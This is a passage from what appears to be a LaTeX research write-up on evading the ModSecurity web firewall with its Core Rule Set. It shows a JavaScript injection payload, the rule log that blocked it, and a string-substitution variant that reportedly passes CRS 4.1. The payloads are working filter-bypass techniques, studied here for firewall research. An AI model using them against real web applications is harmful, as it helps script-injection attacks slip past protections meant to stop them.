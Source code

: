 
\subsubsection{Avoiding \{\}}
\label{sec:avoidingbypassB}
A payload thats not using any curly brackets: \verb|{}| but still allows for Tagged Template Literals or other usages of \verb|{}| can be created using String Substitution strategies. Considering the payload from the previous Section~\ref{sec:avoidingbypassA}, a related payload was created:

\begin{lstlisting}[style=basicStyle, language=Python]
[][`constructor`][`constructor`]('pro'+'mpt`see4InInput${2+2}:`')()
\end{lstlisting}

This payload was blocked by the evaluated firewall configuration:

\begin{lstlisting}[style=ruleStyle, language=XML, caption=Blocked for \$\{\}, label={lst:stringreplaceblocked}]
<payload>[][`constructor`][`constructor`]('pro'+'mpt`see4InInput${2+2}:`')()</payload>

<message>"Remote Command Execution: Unix Shell Expression Found"</message>
<file>"/rules/REQUEST-932-APPLICATION-ATTACK-RCE.conf"</file>
<fileDetails>[line "291"] [id "932130"]<fileDetails>
<MatchedData>"${2 2}"</MatchedData>
\end{lstlisting}

On using a String Substitution strategy like mentioned in \ref{sec:stringreplace}, the curly brackets were substituted in the payload: 

\begin{lstlisting}[style=basicStyle, language=Python, caption={Avoiding \{\} bypass}, label={lst:stringreplacepass}]
[][`constructor`][`constructor`]('pro'+'mpt`see4InInput$'+[open+[]][0][16]+'2+2'+[open+[]][0][36]+':`')()
\end{lstlisting}

A request equipped with this payload successfully evaded the ModSecurity firewall using \acrshort{crs} 4.1. It validated successfully. 


\subsubsection{Forcing Unicode Normalization}

